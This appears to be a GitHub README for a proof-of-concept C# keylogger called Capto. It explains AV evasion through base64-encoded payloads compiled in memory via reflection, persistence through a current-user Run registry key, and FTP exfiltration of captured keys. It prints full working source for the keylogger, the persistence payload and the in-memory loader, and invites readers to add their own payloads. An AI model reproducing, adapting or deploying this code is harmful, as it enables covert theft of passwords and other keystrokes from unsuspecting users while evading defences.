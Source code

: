 # Capto
Capto is a basic POC of a keylogger written in C#. It compiles at runtime in-memory to avoid antivirus detection. It does this by using encoding and reflection. I initially developed this to show people what havoc a simple program could cause with a low privileged account whilst staying undetected by defense mechanisms. Somewhere along the way I lost the project and I always felt kinda sad about it. That version also included a payload where someone could use the Telegram API Bot as C2C (sending screenshots and basic commands to do some exfiltration and enumeration). I've now rewritten the program but just with the basics.

# Process
Upon executing it'll decode the base64 encoded payloads, compile them at runtime where it will then copy itself to a writable folder, add a registry entry for persistence and finally start the keylogger to log the keys that are entered. These are written to a update.log file and will be extracted using ftp.

# Payloads
It currently holds two basic payloads, one for adding a registry entry and the other is the actual keylogger. You can use the included WPF application: ```base64-encoder-decoder``` (or any other encoder) to add your own payloads.

> Note: The compiler expects the namespace and main class to be called ```Program```. It'll then try to invoke ```Main```.

Keylogger:
```cs
using System;
using System.IO;
using System.Runtime.InteropServices;

namespace Program
{    public class Program
    {
        [DllImport("user32.dll")]
        public static extern int GetAsyncKeyState(Int32 i);

        public static void Main(string arg)
        {
            string path = string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.log");

            while (true)
            {
                for (int i = 0; i < 255; i++)
                {
                    int key = GetAsyncKeyState(i);
                    if (key == 1 || key == 32769)
                    {
                        StreamWriter file = new StreamWriter(path, true);
                        file.Write((char)i);
                        file.Close();
                        break;
                    }
                }
            }
        }
    }
}
```

Registry entry:
```cs
using Microsoft.Win32;
using System;

namespace Program
{
    public class Program
    {
        public static void Main(string arg)
        {
            RegistryKey key = Registry.CurrentUser.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Run");
            key.SetValue("Windows", string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.exe"));
            key.Close();
        }
    }
}
```
> Note: We use the local user path in the registry. That way we don't have to be local administrator to add the entry to the registry. Downside is that it'll only run as the current logged in user.

# Reflection
This is the part that compiles and runs the payloads. Don't forget to add the necessary libraries for your payload as reference:
```cs
static void CompileAndRun(string payload)
        {
            CompilerParameters CompilerParams = new CompilerParameters
            {
                GenerateInMemory = true,
                TreatWarningsAsErrors = false,
                GenerateExecutable = false,
                CompilerOptions = "/optimize"
            };

            string[] references = { "System.dll", "mscorlib.dll" };
            CompilerParams.ReferencedAssemblies.AddRange(references);

            CSharpCodeProvider provider = new CSharpCodeProvider();
            CompilerResults compile = provider.CompileAssemblyFromSource(CompilerParams, payload);

            Module module = compile.CompiledAssembly.GetModules()[0];
            Type mt = null;
            MethodInfo methInfo = null;

            if (module != null)
                mt = module.GetType("Program.Program");
            if (mt != null)
                methInfo = mt.GetMethod("Main");
            if (methInfo != null)
                methInfo.Invoke(null, new object[] { "arg" });
        }
```
